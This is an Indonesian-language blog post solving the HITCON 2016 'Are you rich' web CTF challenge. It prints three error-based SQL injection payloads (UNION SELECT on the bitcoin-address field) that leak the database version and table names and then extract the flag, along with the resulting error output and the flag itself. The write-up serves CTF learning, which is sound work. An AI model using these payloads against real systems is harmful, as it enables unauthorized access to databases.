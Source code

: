 ```yaml
---
layout: post
title: "Hitcon 2016 : Are you rich"
description: "Hitcon 2016 : Are you rich"
headline: 
modified: 2016-10-10
category: Web Exploitation
tags: [Hitcon 2016]
imagefeature: /images/php.jpg
mathjax: 
chart: 
comments: true
featured: true
---
```


### Problem :

Are you rich? Buy the flag!
http://52.197.184.164/are_you_rich/

ps. You should NOT pay anything for this challenge

Some error messages which is non-related to challenge have been removed


### Solution : 

Kita dapat web di mana kita bisa lakukan generate bitcion address dan membeli flag. 
Untuk membeli flag kita harus mempunyai 5 BTC dalah address tersebut (Seharusnya),
Dan jika kita menggunakan Address BTC(>=26 karakter) yang bukan di generate dari web tersebut
maka akan muncul error `This address not issued by us` dan ketika kita menambah kan kutip 
pada address BTC nya maka akan muncul `Error when searching in the issue log`.

Dari situ kita asumsikan bahwa address BTC yang sudah di generate itu di simpan ke database
dan kemudian di cari lagi ketika kita akan membeli flag. 

Ternyata memang SQL injection 

Input : `1uQfX9XbdGu2Qr26cB1PZP4Pp8xZaRMfz' UNION SELECT (select @@version) limit 1,2#`
Error : `Error!: Remote API server reject your invalid address '5.7.15-0ubuntu0.16.04.1'. If your address is valid, please PM @cebrusfs or other admin on IRC.`

Input : `1uQfX9XbdGu2Qr26cB1PZP4Pp8xZaRMfz' UNION SELECT (select table_name from information_schema.tables where table_schema != 'information_schema' limit 1) limit 1,2#`
Error : `Error!: Remote API server reject your invalid address 'flag1'. If your address is valid, please PM @cebrusfs or other admin on IRC.`

Input : `1uQfX9XbdGu2Qr26cB1PZP4Pp8xZaRMfz' UNION SELECT (select flag from flag1 limit 1) limit 1,2#`
Error : `Error!: Remote API server reject your invalid address 'hitcon{4r3_y0u_r1ch?ju57_buy_7h3_fl4g!!}'. If your address is valid, please PM @cebrusfs or other admin on IRC.`

Dan di dapatkan flag nya `hitcon{4r3_y0u_r1ch?ju57_buy_7h3_fl4g!!}` , sayangnya kita tidak temukan flag Are you rich 2 :(

